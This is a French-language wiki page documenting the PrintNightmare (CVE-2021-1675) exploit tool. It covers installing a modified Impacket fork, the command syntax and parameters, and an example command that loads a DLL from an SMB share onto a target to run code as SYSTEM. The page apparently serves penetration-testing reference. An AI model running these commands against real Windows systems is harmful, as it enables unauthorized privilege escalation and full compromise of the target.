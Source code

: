 ```yaml
---
title: PrintNightmare
description: Permet à n'importe quel utilisateur sans le privilège SeLoadDriverPrivilege, d'ajouter des drivers d'impression à un système local ou distant, et par conséquent d'exécuter du code en tant que NT AUTHORITY\SYSTEM.
published: true
date: 2024-08-23T14:58:05.057Z
tags: outil, windows
editor: markdown
dateCreated: 2024-08-23T14:57:38.073Z
---
```


# Introduction

PrintNightmare est un exploit qui utilise une faille dans la fonction RpcAddPrinterDriver, qui permet à n'importe quel utilisateur sans le privilège SeLoadDriverPrivilege, d'ajouter des drivers d'impression à un système local ou distant, et par conséquent d'exécuter du code en tant que NT AUTHORITY\SYSTEM.

> La fonction RpcAddPrinterDriver permet aux utilisateurs avec le privilège SeLoadDriverPrivilege d'ajouter des drivers sur des spouleurs distants.
> {.is-info}

> PrintNightmare est disponible au téléchargement [ici](https://github.com/cube0x0/CVE-2021-1675)
> {.is-info}

# Installation

Cet exploit nécéssite une version de Impacket modifiée.

`pip3 uninstall impacket`
`git clone https://github.com/cube0x0/impacket`
`cd impacket`
`python3 ./setup.py install`

# Syntaxe

`CVE-2021-1675.py [[domaine/]utilisateur[:mot de passe]@]<nom ou adresse de la cible> <chemin du fichier DLL> [paramètres]`

# Paramètres

| Paramètre                    | Description                                                                       |
| ---------------------------- | --------------------------------------------------------------------------------- | -------------------------- |
| `-h                          | --help`                                                                           | Affiche le message d'aide. |
| `-hashes <LMHASH>:<NTHASH> ` | Spécifie les hashes NTLM pour l'authentification.                                 |
| `-target-ip [adresse]`       | Spécifie l'adresse de la cible (utile si le nom Netbios est utilisé comme cible). |
| `-port <port> `              | Spécifie le port de destination pour la connexion au serveur SMB.                 |

# Exemples

Ajoute le driver situé sur le partage SMB "\\192.168.1.2\smb\addCube.dll" sur le système 192.168.1.1 avec comme utilisateur domain.local/paul et mot de passe "t00r".
`CVE-2021-1675.py domain.local/paul:t00r@192.168.1.1 '\\192.168.1.2\smb\addCube.dll'`

# Voir aussi

Fonction RpcAddPrinterDriver:
https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/f23a7519-1c77-4069-9ace-a6d8eae47c22
